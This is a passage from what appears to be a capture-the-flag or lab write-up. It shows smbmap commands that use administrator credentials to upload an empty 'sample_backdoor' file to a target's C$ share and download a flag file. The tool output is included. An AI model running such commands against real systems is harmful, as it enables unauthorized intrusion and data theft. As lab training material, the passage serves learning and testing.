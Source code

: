 - Upload a sample file to the `C:\` drive

```bash
touch sample_backdoor
```

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --upload '/root/sample_backdoor' 'C$\sample_backdoor'
```

```bash
[+] Starting upload: /root/sample_backdoor (0 bytes)
[+] Upload complete
```

![smbmap upload](.gitbook/assets/image-20230213231101878.png)

![smbmap file uploaded](.gitbook/assets/image-20230213231242377.png)

- Download a file, the flag file in this case

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --download 'C$\flag.txt'
```

```bash
[+] Starting download: C$\flag.txt (32 bytes)
[+] File output to: /root/10.2.21.233-C_flag.txt

cat 10.2.21.233-C_flag.txt
```

